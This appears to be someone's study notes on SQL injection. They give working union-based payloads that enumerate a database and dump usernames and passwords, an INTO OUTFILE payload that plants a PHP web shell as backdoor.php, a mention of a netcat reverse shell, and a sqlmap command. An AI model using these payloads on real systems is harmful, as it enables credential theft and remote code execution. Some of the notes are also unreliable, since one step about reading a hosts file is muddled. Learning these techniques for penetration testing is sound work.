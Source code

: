                    last entry. Look for columns that have a lot of space 
                    for payloads.We will use this to find info about the db.
                    for the example db it only shows columns 2 and 3
                #extracting data from db
                    now that we understand the layout we can ask for data
                        and have it displayed in specific column locations.
                        we can use `union all select 1,2,3` and add diffrent
                        commands in one of the columns such as `1,2,@@version`
                        so version will be printed in the 3rd column.
                    `@@version` will print the version of a MariaDB
                    `()user` current database user
                    `table_name from information_schema.tables` shows us table
                        names.then we can get column names from that table.
                    `column_name from information_schema.columns where table_name='users'`
                        will print out all the column names for the users table
                        so if we see two column names `username` and `password`
                    `union all select 1,username, password from users`
                        will print all usernames in 2nd field and passwords
                        in the 3rd field. passwords might be hashed or in
                        plain text
                    #h2 database JDBC
                        `') order by 5;--'`
                            order to figure out how many columns you have
                        `fake%') or 1=2 union all select 1,2,3,4,5;--'`
                            we find out that the page is set up with columns:
                            2
                            4
                            3
                        `fake%') or 1=2'`
                            fake will find no results and 1=2 is false. we want
                            to use this with extra injection code to be sure
                            that our real search gets nothing without error and
                            our injection code, `union`, gets us results
                            without error
                        `fake%') or 1=2 union all select 1,2,name,4,5 from items;--'`
                            will print the value `name` from the `items` table
                            in the 3rd column
                        `fake%') or 1=2 union all select 1,2,table_name,4,5 from information_schema.tables;--'`
                            prints all `table names` to the 3rd column as
                            grabbed from the info schema
                        `fake%') or 1=2 union all select 1,2,username,4,5 from users;--'`
                            prints out all data from `username` column of the
                            `users` table
                        `fake%') or 1=2 union all select 1,2,password,4,5 from users;--'`
                            same for passwords
                #from SQL injection to code execution
                    depending on OS, service privs, and file permissions
                        for a windows server we can check to see if we can load
                        a file and read it with `union all select 1,2,3` by
                        replacing 3 with `column_name from information_schema.columns where table_name='host'`
                        this should load the hosts file and display it.
                    we can use `INTO OUTFILE` to create malicious PHP file
                        to the servers web root dir. we can get this from
                        the SQL db sysntax error of `'`
                        `union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
                        this might syntax error but might have been saved. go
                            access the file to be sure.This one liner makes a
                            new page on the site. So go there and pass it a
                            `cmd` such as `whoami` to see if it worked with
                            `http://target.com/backdoor.php?cmd=whoami`
                    can use `cmd=` here with `nc` to send us reverse shell
                #automating SQL injection
                    `sqlmap -u http://tgt.com/debug.php?id=1 -p "id"`